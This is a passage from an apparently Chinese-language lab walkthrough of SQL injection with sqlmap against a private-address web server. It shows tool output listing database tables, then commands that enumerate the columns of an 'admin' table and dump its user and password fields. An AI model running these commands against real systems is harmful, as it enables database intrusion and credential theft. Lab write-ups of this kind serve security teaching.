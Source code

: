```
..........
[11:41:14] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:41:14] [INFO] fetching tables for database: 'website'
[11:41:14] [INFO] the SQL query used returns 2 entries
[11:41:14] [INFO] retrieved: admin
[11:41:14] [INFO] retrieved: articles
Database: website                                                              
[2 tables]
+----------+
| admin    |
| articles |
+----------+
..........
```

## 第四步：读取数据

输入：`sqlmap -u '192.168.3.59/article.php?id=1' -D website -T admin --columns`。

输出：注入得到了三列`user、id、pass`。

```
..............
[11:43:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:43:46] [INFO] fetching columns for table 'admin' in database 'website'
[11:43:47] [INFO] the SQL query used returns 3 entries
[11:43:47] [INFO] retrieved: "id","int(11)"
[11:43:47] [INFO] retrieved: "user","text"
[11:43:47] [INFO] retrieved: "pass","text"
Database: website                                                              
Table: admin
[3 columns]
+--------+---------+
| Column | Type    |
+--------+---------+
| user   | text    |
| id     | int(11) |
| pass   | text    |
+--------+---------+
............
```

## 第五步：查看数据

输入：`sqlmap -u '192.168.3.59/article.php?id=1' -D website -T admin -C user,pass --dump`。
